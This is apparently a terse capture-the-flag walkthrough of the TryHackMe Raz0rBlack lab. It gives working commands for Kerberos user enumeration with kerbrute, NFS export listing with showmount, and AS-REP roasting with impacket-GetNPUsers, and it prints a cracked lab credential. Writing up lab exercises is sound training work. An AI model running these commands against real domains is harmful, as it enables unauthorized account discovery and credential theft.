 # Page

```bash
 ./kerbrute_linux_386 userenum  -d raz0rblack.thm --dc 10.10.241.105    users.txt 
```

<figure><img src="../../../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

{% embed url="https://h3ckt0r.gitbook.io/0xsec/cheat-sheet/pentest_notes#port-111-rpcbind" %}

<figure><img src="../../../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

```bash
showmount -e 10.10.241.105
```

<figure><img src="../../../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../../../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

i open exel file i found users&#x20;

<figure><img src="../../../../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

REP-REPOSTING

```
impacket-GetNPUsers raz0rblack.thm/ -dc-ip 10.10.194.110  -usersfile users.txt -format john -outputfile crackme.txt -no-pass -request
```

<figure><img src="../../../../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

user cracked

<figure><img src="../../../../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

<mark style="color:red;">**twilliams:roastpotatoes**</mark>


